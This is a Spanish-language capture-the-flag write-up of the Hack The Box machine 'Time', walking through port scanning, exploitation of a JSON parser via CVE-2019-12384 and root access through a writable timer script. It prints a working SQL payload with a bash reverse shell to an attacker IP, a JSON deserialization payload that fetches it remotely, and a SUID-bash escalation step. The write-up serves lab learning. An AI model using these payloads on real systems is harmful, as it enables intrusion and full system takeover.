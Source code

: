 ```yaml
---
title: "Time - Hack The Box"
layout: single
excerpt:
show_date: true
classes: wide
header:
  teaser: "assets/images/machines/time/data/time.png"
  teaser_home_page: true
  icon: "assets/images/icons/Hackthebox2.png"
categories:
  - Writeup
  - HackTheBox
tags:
  - Bash
  - RCE (Remote Code Execution)
  - Json
---
```



<p align="center">
<img src="/assets/images/machines/time/data/TimeHTB.png">
</p>


La máquina **Time** es una máquina virtual vulnerable de la plataforma HackTheBox con un nivel de dificultad **medio** una calificación en el rank de 3.5, **5710 USER OWNS** y **5369 SYSTEM OWNS** con la ip **10.10.10.214** y un sistema operativo **Linux**.


### Port Scan

Para empezar, hice un escaneo con la herramienta **Nmap** para encontrar los puertos abiertos disponibles en la máquina con **[Ip:10.10.10.214]** utilizando los parámetros:
  - **-p-:**    Escaneo a toda la gama de puertos (65536).
  - **-n:**     No hacen la resolución del DNS.
  - **-T5:**    El parámetro más agresivo y ruidoso pero más rápido para hacer una exploración rápida.
  - **-v:**     Aumenta el nivel de los mensajes verbose.
  - **--open:** Muestra sólo los puertos con estado abierto.
  - **-oG:**    Guarde la el output en formato Grepeable.

<p align="center">
<img src="/assets/images/machines/time/scan/scanPort.png">
</p>


Una vez que hicimos el escaneo de puertos con la herramienta **ExtractPort**, vemos que los puertos que destacaron en este caso fueron **22,80**:

<p align="center">
<img src="/assets/images/machines/time/scan/Ports.png">
</p>


Una vez identificados los puertos abiertos, realizaremos un escaneo de versiones y servicios de estos puertos con la herramienta nmap configurando los siguientes parámetros:

  - -sC: Script de enumeración básica de sondeo en puertos y servicios alojados.
  - -sV: Detección de versiones en servicios alojados en puertos.
  - -p : Puertos a inspeccionar.
  - -oN: Formatos de Nmap en los que se guardará el archivo.

<p align="center">
<img src="/assets/images/machines/time/scan/PortServ.png">
</p>


Lo que nmap nos ha mostrado sobre los servicios es que tiene un servicio ssh y una página http que está soportada por apache 2.4.41 que tiene un **Online Json parser** corriendo. Aparte de estos datos no vemos nada fuera de lo normal o que indique un foco a seguir que no sea la página con el Json.

Si entramos en la página web desde el navegador podemos ver la aplicación **Json** que está montada en la web:

<p align="center">
<img src="/assets/images/machines/time/scan/pageWeb.png">
</p>

Una vez que hemos identificado una posible ruta para nuestra auditoría, empezamos a jugar con la aplicación y vemos que tiene dos opciones **'embellecer'** y **'validar (beta)'** si introducimos datos en la segunda podemos ver que nos muestra el siguiente error:

<p align="center">
<img src="/assets/images/machines/time/scan/errorPage.png">
</p>


Investigando el error y si tiene alguna forma de abusar de él ya sea para hacer algún tipo de **RCE** o otro potencial camino a seguir y haciendo una buena búsqueda en internet sobre este error encontré un documento en **[github](https://github.com/jas502n/CVE-2019-12384)** que hablaba de cómo hacer una ejecución de comandos en una aplicación aprovechando una vulnerabilidad existente en la misma. Sigo los pasos mencionados en la página que era crear un archivo **inject.sql** que tenía el siguiente contenido:

```sql
CREATE ALIAS SHELLEXEC AS $$ String shellexec(String cmd) throws java.io.IOException {
        String[] command = {"bash", "-c", cmd};
        java.util.Scanner s = new java.util.Scanner(Runtime.getRuntime().exec(command).getInputStream()).useDelimiter("\\A");
        return s.hasNext() ? s.next() : "";  }
$$;
CALL SHELLEXEC('bash -i >& /dev/tcp/10.10.15.125/443 0>&1')
```

Una vez creado el archivo me puse en el puerto **443** y levanté un servidor HTTP en el puerto 8000, una vez hecho esto envié la siguiente consulta a través de la aplicación web:

```json
["ch.qos.logback.core.db.DriverManagerConnectionSource",{"url":"jdbc:h2:mem:;TRACE_LEVEL_SYSTEM_OUT=3;INIT=RUNSCRIPT FROM 'http://10.10.15.125:8000/inject.sql'"}]
```

<p align="center">
<img src="/assets/images/machines/time/intrusion/payload.png">
</p>

La respuesta que me dio fue un get al archivo **Inject.sql** en el lado del servidor que inicié y desde el puerto que abrí interpretó el comando dándome un shell:

<p align="center">
<img src="/assets/images/machines/time/intrusion/acces.png">
</p>

## Movimiento Lateral

Haciendo un pequeño reconocimiento en el sistema podemos ver que hay una tarea cron que se ejecutan a intervalos de tiempo regulares en este caso cada **7 segundos** el cual es **'timer\_backup.timer'**:

<p align="center">
<img src="/assets/images/machines/time/intrusion/cron.png">
</p>

Una vez que sabemos que existe un CronJob procedemos a buscar el archivo para ver si es una ruta a seguir para conseguir la escalada de privilegios, utilizando el comando ```$ systemctl list-timers ``` podemos encontrar la ubicación de este archivo y concatenando un ls -la podemos ver que el archivo nos pertenece por lo que podemos editarlo sin problemas

<p align="center">
<img src="/assets/images/machines/time/intrusion/cronjon.png">
</p>

## Escalacion de privilegios

Para la escalada de privilegios lo que hice fue ir al archivo y dentro del archivo modifiqué el contenido que tenía por el siguiente:

```bash

#!/bin/bash
chmod 4755 /bin/bash

```

Una vez que modificamos el archivo **timer\_backup** esperamos a que la tarea cron se ejecute y root asigne el permiso **SUID** a la ruta **/bin/bash** lo cual nos permitira utilizar el parámetro ``` bash -p ``` que nos dará una shell como root ya que estamos ejecutando temporalmente el binario como el propiertario del mismo y asi teniendo acceso completo a la máquina y completado el rooteo de la misma.

<p align="center">
<img src="/assets/images/machines/time/intrusion/root.png">
</p>

<p align="center">
<img src="/assets/images/machines/time/intrusion/root2.png">
</p>
